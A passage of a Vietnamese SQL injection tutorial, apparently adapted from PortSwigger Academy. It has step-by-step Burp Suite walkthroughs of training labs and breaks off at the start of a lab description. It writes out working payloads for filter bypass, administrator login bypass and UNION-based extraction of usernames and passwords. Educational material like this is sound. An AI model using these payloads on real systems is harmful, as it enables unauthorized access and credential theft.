# SQL injection (SQLi) là gì?
SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện với cơ sở dữ liệu của nó. Điều này có thể cho phép kẻ tấn công xem dữ liệu mà họ không thể truy cập được, bao gồm dữ liệu của người dùng khác hoặc bất kỳ dữ liệu nào mà ứng dụng có thể truy cập. Trong nhiều trường hợp, kẻ tấn công có thể sửa đổi hoặc xóa dữ liệu này, gây ra các thay đổi vĩnh viễn đối với nội dung hoặc hành vi của ứng dụng.<br>Trong một số tình huống, kẻ tấn công có thể leo thang cuộc tấn công SQL injection để xâm nhập vào máy chủ hoặc cơ sở hạ tầng phía sau. Điều này cũng có thể cho phép chúng thực hiện các cuộc tấn công từ chối dịch vụ (DoS).

# Cách nhận biết lỗ hổng SQL injection
Bạn có thể phát hiện SQL injection thủ công bằng cách kiểm tra một cách có hệ thống từng điểm nhập liệu trong ứng dụng. Để làm điều này, bạn có thể:

- Gửi ký tự dấu nháy đơn `'` và kiểm tra lỗi hoặc bất thường.
- Sử dụng cú pháp SQL đặc biệt để so sánh giá trị ban đầu và giá trị thay đổi.
- Kiểm tra các điều kiện Boolean như `OR 1=1` và `OR 1=2` và xem phản hồi khác nhau.
- Sử dụng các payloads để gây ra độ trễ thời gian và kiểm tra sự khác biệt trong thời gian phản hồi.
- Dùng các payloads OAST để kích hoạt tương tác mạng và giám sát các tương tác kết quả.

Ngoài ra, bạn có thể sử dụng Burp Scanner để phát hiện các lỗ hổng SQL injection một cách nhanh chóng và đáng tin cậy.

Hầu hết các lỗ hổng SQL injection xảy ra trong mệnh đề `WHERE` của truy vấn SELECT. Tuy nhiên, chúng có thể xuất hiện ở bất kỳ vị trí nào trong truy vấn và trong các loại truy vấn khác nhau. Một số vị trí phổ biến khác mà SQL injection xuất hiện bao gồm:

- Trong câu lệnh `UPDATE`, bên trong các giá trị được cập nhật hoặc mệnh đề WHERE.
- Trong câu lệnh `INSERT`, bên trong các giá trị được chèn.
- Trong câu lệnh `SELECT`, bên trong tên bảng hoặc tên cột.
- Trong câu lệnh `SELECT`, bên trong mệnh đề `ORDER BY`.

<h1>Thu thập thông tin ẩn</h1>
Hãy tưởng tượng một ứng dụng mua sắm hiển thị sản phẩm theo các danh mục khác nhau. Khi người dùng nhấp vào danh mục Quà tặng, trình duyệt của họ yêu cầu URL:

```
https://insecure-website.com/products?category=Gifts
```

Điều này khiến ứng dụng thực hiện một truy vấn SQL để lấy chi tiết về các sản phẩm liên quan từ cơ sở dữ liệu:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Truy vấn này yêu cầu cơ sở dữ liệu trả về:

- Tất cả chi tiết (*)
- Từ bảng products
- Nơi category là Gifts
- Và released là 1

Điều kiện `released = 1` được sử dụng để ẩn sản phẩm chưa phát hành. Từ đó có thể cho rằng các sản phẩm chưa phát hành sẽ có điều kiện là `released = 0`.

Khi một ứng dụng không có bất cứ cơ chế phòng thủ nào để chống lại SQL injection, kẻ tấn công có thể truy cập ứng dụng bằng đường link:

```
https://insecure-website.com/products?category=Gifts'--
```

Kết quả là một truy vấn SQL được thực hiện:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

```--``` là dấu được sử dụng để đánh dấu phần bình luận trong ngôn ngữ SQL, tương tự với việc mọi thứ đứng sau nó trong một truy vấn SQL sẽ được coi như một bình luận và không được thực thi. Trong ví dụ này, kẻ tấn công đã loại bỏ được điều kiện ```AND released = 1``` và lấy ra toàn bộ thông tin thuộc `category = Gifts`, bao gồm cả những sản phẩm chưa được phát hành.

Phát triển từ phương pháp này, kẻ tấn công có thể truy cập vào ứng dụng bằng một đường link tương tự để có thể lấy được thông tin về mọi sản phẩm thuộc bất kỳ danh mục nào hoặc đã phát hành hay chưa:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Ứng dụng sẽ thực hiện truy vấn SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Truy vấn này trả về mọi kết quả có `category = Gifts` hoặc `1 = 1`, hay mệnh đề `true` và truy vấn trả về mọi kết quả.

> ## Lưu ý
> Khi chèn điều kiện OR 1=1 vào một truy vấn SQL, ngay cả khi điều này có vẻ vô hại trong ngữ cảnh mà bạn đang chèn vào, thì việc các ứng dụng sử dụng dữ liệu từ một yêu cầu duy nhất trong nhiều truy vấn khác nhau là điều rất phổ biến. Nếu điều kiện của bạn được áp dụng cho một câu lệnh UPDATE hoặc DELETE, ví dụ như vậy, nó có thể gây ra mất dữ liệu ngoài ý muốn.

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection liên quan đến bộ lọc về loại mặt hàng. Khi người dùng chọn một loại mặt hàng, ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Để giải bài lab này, hãy thực hiện tấn công SQL injection và xuất ra ít nhất một sản phẩm chưa được phát hành.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.


3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một loại mặt hàng bất kỳ trên ứng dụng, ở ví dụ này tôi chọn *Tech gifts*.
5. Bỏ qua gói tin PING bằng cách nhấn **Forward**.
6. Phân tích gói tin ta sẽ thấy phần `category=Tech+gifts`.

```
GET /filter?category=Tech+gifts HTTP/2
Host: 0acf0092030fea408003951800f6008e.web-security-academy.net
Cookie: session=cY6Hd4SqjPVZvbrqetjcwXHgbbdGigPp
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acf0092030fea408003951800f6008e.web-security-academy.net/filter?category=Pets
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```

7. Sửa thông tin `category` thành `category=Tech+gifts'+OR+1=1--`. Lúc này ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM products WHERE category = 'Tech gifts' OR 1=1--' AND released = 1
```
- Mệnh đề `WHERE` sẽ tìm kiếm các sản phẩm có `category = 'Tech gifts'` hoặc `1=1` (luôn đúng), tức sẽ trả về mọi sản phẩm.
- Dấu `--` sử dụng để đưa mệnh đề `AND` vào phần bình luận và không thực hiện nó, từ đó lấy được thông tin về các sản phẩm chưa phát hành.

8. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.


# Thay đổi logic ứng dụng

Hãy tưởng tượng một ứng dụng cho phép người dùng đăng nhập bằng tên người dùng và mật khẩu. Nếu một người dùng nhập tên người dùng là wiener và mật khẩu là bluecheese, ứng dụng sẽ kiểm tra thông tin đăng nhập bằng cách thực hiện truy vấn SQL sau:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Nếu truy vấn trả về thông tin chi tiết của một người dùng, thì việc đăng nhập thành công. Ngược lại, nó sẽ bị từ chối.

Trong trường hợp này, một kẻ tấn công có thể đăng nhập vào bất kỳ tài khoản nào mà không cần mật khẩu. Họ có thể làm điều này bằng cách sử dụng chuỗi nhận xét SQL `--` để loại bỏ kiểm tra mật khẩu khỏi mệnh đề WHERE của truy vấn. Ví dụ, việc nhập tên người dùng `administrator'--` và mật khẩu trống sẽ tạo ra truy vấn sau:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

Truy vấn này sẽ trả về người dùng có tên đăng nhập là administrator và cho phép kẻ tấn công đăng nhập thành công vào tài khoản của người dùng đó.

# Lab: SQL injection vulnerability allowing login bypass

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong chức năng đăng nhập.

Để giải quyết bài lab, thực hiện một cuộc tấn công SQL injection để đăng nhập vào ứng dụng với tư cách là người dùng `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.


3. Chọn *My account* để di chuyển tới trang đang nhập của ứng dụng.


4. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
5. Điền một thông tin đăng nhập ngẫu nhiên vào `username` và `password`, trong ví dụ này tôi sử dụng ký tự `a` để điền vào cả 2, và chọn **Log in**.
6. Phân tích gói tin mà BurpSuite đã chặn lại, ta có thể thấy các lệnh gán được thực hiện lên các biến `username=a` và `password=a`.

```
POST /login HTTP/2
Host: 0a5a001003763365809c807a00fd0066.web-security-academy.net
Cookie: session=kPlT05GsAtrZGFOGdOtT0NOjX1HF760s
Content-Length: 59
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a5a001003763365809c807a00fd0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5a001003763365809c807a00fd0066.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=92xpj2USBesupJfJH5bMZebO8iUjdxPa&username=a&password=a
```

7. Ta có thể nhận định rằng ứng dụng sẽ thực hiện một truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'a' AND password = 'a'
```

8. Vì đang hướng tới người dùng `administrator`, ta có thể điền `administrator'--` vào `username` và điền ngẫu nhiên vào `password` trên giao diện đăng nhập. Ứng dụng sau đó sẽ thực hiện truy vấn SQL như sau:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'a'
```
- `administrator` được điền vào để hướng tới việc đăng nhập bằng quyền của người dùng `administrator`.
- `'--` được điền vào để đóng lại phần nhập dữ liệu đầu vào cho `username` và biến toàn bộ phần đăng sau của truy vấn SQL trở thành bình luận.

9. Chọn **Forward** để gửi gói tin, ứng dụng sẽ trả về kết quả như yêu cầu, kèm với thông báo đã hoàn thành bài lab.

# Tấn công SQL injection UNION

Khi một ứng dụng bị mắc lỗ hổng SQL injection và kết quả của truy vấn được trả về trong các phản hồi của ứng dụng, bạn có thể sử dụng từ khóa `UNION` để truy xuất dữ liệu từ các bảng khác trong cơ sở dữ liệu. Đây được gọi là một cuộc tấn công SQL injection `UNION`.

Từ khóa `UNION` cho phép bạn thực hiện một hoặc nhiều truy vấn `SELECT` bổ sung và nối kết quả vào truy vấn gốc. Ví dụ:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Truy vấn SQL này trả về một tập hợp kết quả duy nhất với hai cột, chứa các giá trị từ các cột a và b trong table1 và các cột c và d trong table2.

Để một truy vấn `UNION` hoạt động, hai yêu cầu chính phải được đáp ứng:

- Các truy vấn riêng lẻ phải trả về cùng số cột.
- Các kiểu dữ liệu trong mỗi cột phải tương thích giữa các truy vấn riêng lẻ.

Để thực hiện một cuộc tấn công SQL injection `UNION`, hãy đảm bảo rằng cuộc tấn công của bạn đáp ứng hai yêu cầu này. Điều này thường bao gồm việc tìm ra:

- Số cột được trả về từ truy vấn gốc.
- Các cột nào được trả về từ truy vấn gốc có kiểu dữ liệu phù hợp để chứa kết quả từ truy vấn được chèn vào.

# Xác định số cột cần thiết

Khi thực hiện một cuộc tấn công SQL injection `UNION`, có hai phương pháp hiệu quả để xác định số cột được trả về từ truy vấn gốc.

Một phương pháp liên quan đến việc chèn một loạt các mệnh đề `ORDER BY` và tăng dần chỉ số cột cho đến khi xuất hiện lỗi. Ví dụ, nếu điểm tiêm nhiễm là một chuỗi được trích dẫn trong mệnh đề `WHERE` của truy vấn gốc, bạn sẽ nhập:

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Loạt payload này sửa đổi truy vấn gốc để sắp xếp kết quả theo các cột khác nhau trong tập kết quả. Cột trong mệnh đề `ORDER BY` có thể được chỉ định theo chỉ số của nó, vì vậy bạn không cần phải biết tên của bất kỳ cột nào. Khi chỉ số cột được chỉ định vượt quá số lượng cột thực tế trong tập kết quả, cơ sở dữ liệu sẽ trả về một lỗi, chẳng hạn như:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

Ứng dụng có thể thực sự trả về lỗi cơ sở dữ liệu trong phản hồi HTTP của nó, nhưng nó cũng có thể phát hành một phản hồi lỗi chung chung. Trong các trường hợp khác, nó có thể chỉ đơn giản là không trả về kết quả nào cả. Dù bằng cách nào, miễn là bạn có thể phát hiện ra một số sự khác biệt trong phản hồi, bạn có thể suy ra số cột được trả về từ truy vấn.

Phương pháp thứ hai liên quan đến việc gửi một loạt các payload `UNION SELECT` với số lượng giá trị NULL khác nhau:

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Nếu số lượng `NULL` không khớp với số lượng cột, cơ sở dữ liệu sẽ trả về một lỗi, chẳng hạn như:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

Chúng ta sử dụng `NULL` làm giá trị được trả về từ truy vấn `SELECT` được chèn vào vì các kiểu dữ liệu trong mỗi cột phải tương thích giữa truy vấn gốc và truy vấn được chèn vào. `NULL` có thể chuyển đổi sang mọi kiểu dữ liệu thông thường, do đó tối đa hóa khả năng payload thành công khi số lượng cột là đúng.

Tương tự như kỹ thuật `ORDER BY`, ứng dụng có thể thực sự trả về lỗi cơ sở dữ liệu trong phản hồi HTTP của nó, nhưng cũng có thể trả về một lỗi chung chung hoặc đơn giản là không trả về kết quả nào. Khi số lượng `NULL` khớp với số lượng cột, cơ sở dữ liệu sẽ trả về một hàng bổ sung trong tập kết quả, chứa các giá trị `NULL` trong mỗi cột. Hiệu ứng trên phản hồi HTTP phụ thuộc vào mã của ứng dụng. Nếu may mắn, bạn sẽ thấy một số nội dung bổ sung trong phản hồi, chẳng hạn như một hàng thêm vào trong bảng HTML. Ngược lại, các giá trị `NULL` có thể gây ra một lỗi khác, chẳng hạn như `NullPointerException`. Trong trường hợp xấu nhất, phản hồi có thể trông giống như một phản hồi gây ra bởi số lượng `NULL` không đúng. Điều này sẽ làm cho phương pháp này không hiệu quả.

# Lab: SQL injection UNION attack, determining the number of columns returned by the query

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác. Bước đầu tiên của cuộc tấn công này là xác định số lượng cột được trả về bởi truy vấn. Sau đó, bạn sẽ sử dụng kỹ thuật này trong các bài lab tiếp theo để xây dựng cuộc tấn công đầy đủ.

Để giải quyết bài lab, hãy xác định số lượng cột được trả về bởi truy vấn bằng cách thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa các giá trị NULL.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.


3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.


6. Theo yêu cầu của đề, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 3 cột.


9. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông báo đã hoàn thành bài lab.

# Cú pháp đặc thù của cơ sở dữ liệu

Trên Oracle, mọi truy vấn `SELECT` đều phải sử dụng từ khóa `FROM` và chỉ định một bảng hợp lệ. Có một bảng tích hợp trên Oracle gọi là dual có thể được sử dụng cho mục đích này. Vì vậy, các truy vấn tiêm vào Oracle cần phải trông như sau:
```sql
' UNION SELECT NULL FROM DUAL--
```
Các payload mô tả sử dụng chuỗi chú thích dấu gạch đôi `--` để chú thích phần còn lại của truy vấn gốc sau điểm tiêm. Trên MySQL, chuỗi dấu gạch đôi phải được theo sau bởi một khoảng trắng. Ngoài ra, ký tự hash # có thể được sử dụng để xác định một chú thích.

Để biết thêm chi tiết về cú pháp đặc thù của cơ sở dữ liệu, hãy xem cheat sheet về SQL injection.

# Tìm các cột có kiểu dữ liệu hữu ích

Một cuộc tấn công SQL injection UNION cho phép bạn truy xuất kết quả từ một truy vấn tiêm vào. Dữ liệu thú vị mà bạn muốn truy xuất thường ở dạng chuỗi. Điều này có nghĩa là bạn cần tìm một hoặc nhiều cột trong kết quả truy vấn gốc có kiểu dữ liệu là chuỗi hoặc tương thích với dữ liệu chuỗi.

Sau khi xác định số lượng cột cần thiết, bạn có thể kiểm tra từng cột để xem liệu nó có thể chứa dữ liệu chuỗi hay không. Bạn có thể gửi một loạt payload `UNION SELECT` đặt giá trị chuỗi vào từng cột lần lượt. Ví dụ, nếu truy vấn trả về bốn cột, bạn sẽ gửi:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
Nếu kiểu dữ liệu của cột không tương thích với dữ liệu chuỗi, truy vấn được truyền vào sẽ gây ra lỗi trên cơ sở dữ liệu, chẳng hạn như:

```
Conversion failed when converting the varchar value 'a' to data type int.
```

Nếu không xảy ra lỗi và phản hồi của ứng dụng chứa một số nội dung bổ sung bao gồm giá trị chuỗi tiêm vào, thì cột tương ứng đó phù hợp để truy xuất dữ liệu chuỗi.

# Lab: SQL injection UNION attack, finding a column containing text

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, trước tiên bạn cần xác định số lượng cột được trả về bởi truy vấn. Bạn có thể làm điều này bằng cách sử dụng kỹ thuật mà bạn đã học trong phòng lab trước đó. Bước tiếp theo là xác định một cột tương thích với dữ liệu chuỗi.

Bài lab sẽ cung cấp một giá trị ngẫu nhiên mà bạn cần làm xuất hiện trong kết quả truy vấn. Để giải quyết phòng lab, hãy thực hiện một cuộc tấn công SQL injection UNION trả về một hàng bổ sung chứa giá trị được cung cấp. Kỹ thuật này giúp bạn xác định cột nào tương thích với dữ liệu chuỗi.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.


3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.


6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 3 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiềm tra cột có thể trả về giá trị dạng `string`. Sau khi thay vào giá trị `NULL` thứ 2, ứng dụng đã không trả về lỗi.


10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông báo đã hoàn thành bài lab.

# Sử dụng một cuộc tấn công SQL injection UNION để truy xuất dữ liệu thú vị

Khi bạn đã xác định số lượng cột được trả về bởi truy vấn gốc và tìm ra cột nào có thể chứa dữ liệu chuỗi, bạn có thể tiến hành truy xuất dữ liệu thú vị.

Giả sử rằng:

- Truy vấn gốc trả về hai cột, cả hai đều có thể chứa dữ liệu chuỗi.
- Điểm tiêm nằm trong một chuỗi được trích dẫn trong mệnh đề `WHERE`.
- Cơ sở dữ liệu chứa một bảng có tên là users với các cột `username` và `password`.

Trong ví dụ này, bạn có thể truy xuất nội dung của bảng users bằng cách gửi đầu vào:
```sql
' UNION SELECT username, password FROM users--
```
Để thực hiện cuộc tấn công này, bạn cần biết rằng có một bảng tên là `users` với hai cột tên là `username` và `password`. Nếu không có thông tin này, bạn sẽ phải đoán tên các bảng và cột. Tất cả các cơ sở dữ liệu hiện đại đều cung cấp các cách để kiểm tra cấu trúc cơ sở dữ liệu và xác định các bảng và cột mà chúng chứa.

# Lab: SQL injection UNION attack, retrieving data from other tables

## Mô tả bài lab

Phòng lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công `UNION` để truy xuất dữ liệu từ các bảng khác. Để xây dựng một cuộc tấn công như vậy, bạn cần kết hợp một số kỹ thuật mà bạn đã học trong các phòng lab trước đó.

Cơ sở dữ liệu chứa một bảng khác gọi là `users`, với các cột tên là `username` và `password`.

Để giải quyết phòng lab, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả tên người dùng và mật khẩu, và sử dụng thông tin đó để đăng nhập với tư cách là `administrator`.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.


3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.


6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.


8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào cả 2 giá trị `NULL`, ứng dụng vẫn không trả về lỗi.


10. Theo yêu cầu bài lab, ta cần lấy giá trị của các cột `username` và `password` từ bảng `users`. Ta sẽ sử dụng gói tin như sau:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin đăng nhập của các người dùng, bao gồm cả `administrator`.


11. Sử dụng thông tin này để đăng nhập, ứng dụng sau đó sẽ trả về thông báo hoàn thành bài lab.

# Lấy nhiều giá trị trong một cột

Trong một số trường hợp, truy vấn trong ví dụ trước có thể chỉ trả về một cột duy nhất.

Bạn có thể lấy nhiều giá trị trong cột này bằng cách kết hợp các giá trị lại với nhau. Bạn có thể thêm một ký tự phân cách để dễ dàng nhận biết các giá trị đã kết hợp. Ví dụ, trên Oracle bạn có thể gửi truy vấn:

```sql
' UNION SELECT username || '~' || password FROM users--
```

Điều này sử dụng chuỗi dấu gạch đôi `||`, là toán tử kết hợp chuỗi trên Oracle. Truy vấn chèn kết hợp các giá trị của các trường `username` và `password`, được ngăn cách bởi ký tự ~.

Kết quả từ truy vấn sẽ chứa tất cả các tên người dùng và mật khẩu, ví dụ:

```
...
administrator~s3cure
wiener~peter
carlos~montoya
...
```

Các cơ sở dữ liệu khác nhau sử dụng cú pháp khác nhau để thực hiện kết hợp chuỗi. Để biết thêm chi tiết, xem bảng cheat sheet về SQL injection.

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

## Mô tả bài lab

Bài lab này chứa một lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm. Kết quả từ truy vấn được trả về trong phản hồi của ứng dụng, vì vậy bạn có thể sử dụng một cuộc tấn công UNION để truy xuất dữ liệu từ các bảng khác.

Cơ sở dữ liệu chứa một bảng khác gọi là users, với các cột username và password.

Để giải quyết bài lab, hãy thực hiện một cuộc tấn công SQL injection UNION để truy xuất tất cả các tên người dùng và mật khẩu, sau đó sử dụng thông tin này để đăng nhập dưới tư cách người quản trị.

## Các bước thực hiện

1. Mở **BurpSuite**, chọn tab **Proxy**.
2. Chọn **Open browser**, truy cập vào URL của bài lab và điều chỉnh kích thước cửa sổ để quan sát cả 2 ứng dụng.



3. Chọn **Intercept is off** để chuyển nó sang **Intercept is on**.
4. Chọn một filter bất kỳ để nhận gói tin, ở đây tôi chọn *Accessories*
5. Phân tích gói tin mà BurpSuite đã chặn lại, chọn *Action>Send to Repeater* và chuyển sang tab **Repeater**.



6. Trước hết, ta cần xác định số cột thông tin được trả về. Để làm điều đó ta có thể thay giá trị của `categories` thành `'+UNION+SELECT+NULL--`.
7. Chọn **Send** để gửi gói tin, trong trường hợp ứng dụng trả về lỗi `Internal Server Error`, tiếp tục thêm `,NULL` vào phía sau giá trị `NULL` trước đó và thử lại.



8. Trong ví dụ này, khi dừng ở `'+UNION+SELECT+NULL,NULL--`, ứng dụng đã không trả về lỗi. Từ đó có thể xác định được dữ liệu trả về có 2 cột.
9. Lần lượt thay thế các giá trị `NULL` bằng giá trị bài lab yêu cầu để kiểm tra cột có thể can thiệp. Sau khi thay vào từng giá trị `NULL`, ứng dụng vẫn không trả về lỗi ở giá trị `NULL` thứ 2.



10. Theo yêu cầu bài lab, ta cần lấy giá trị của các cột `username` và `password` từ bảng `users`. Ta sẽ sử dụng gói tin như sau:

```
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
```

10. Sao chép toàn bộ nội dung gói tin, sau đó quay lại tab **Proxy** và thay thế nội dung hiện tại bằng nội dung vừa được sao chép, sau đó chọn **Forward**. Ứng dụng sẽ trả về thông tin đăng nhập của các người dùng, bao gồm cả `administrator`.



11. Sử dụng thông tin này để đăng nhập, ứng dụng sau đó sẽ trả về thông báo hoàn thành bài lab.

# Khám phá cơ sở dữ liệu trong các cuộc tấn công SQL injection

Để khai thác các lỗ hổng SQL injection, thường cần phải tìm thông tin về cơ sở dữ liệu. Điều này bao gồm:

- Loại và phiên bản của phần mềm cơ sở dữ liệu.
- Các bảng và cột mà cơ sở dữ liệu chứa.

# Querying the database type and version
Bạn có thể xác định cả loại và phiên bản cơ sở dữ liệu bằng cách tiêm các truy vấn cụ thể cho từng nhà cung cấp để xem truy vấn nào hoạt động.

Dưới đây là một số truy vấn để xác định phiên bản cơ sở dữ liệu cho một số loại cơ sở dữ liệu phổ biến:

| Loại cơ sở dữ liệu  | Truy vấn                    |
| ------------------- | --------------------------- |
| Microsoft, MySQL    | `SELECT @@version`          |
| Oracle              | `SELECT * FROM v$version`   |
| PostgreSQL          | `SELECT version()`          |

Ví dụ, bạn có thể sử dụng một cuộc tấn công UNION với đầu vào sau:

```
' UNION SELECT @@version--
```

Điều này có thể trả về kết quả sau. Trong trường hợp này, bạn có thể xác nhận rằng cơ sở dữ liệu là Microsoft SQL Server và thấy phiên bản được sử dụng.

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Mô tả bài lab

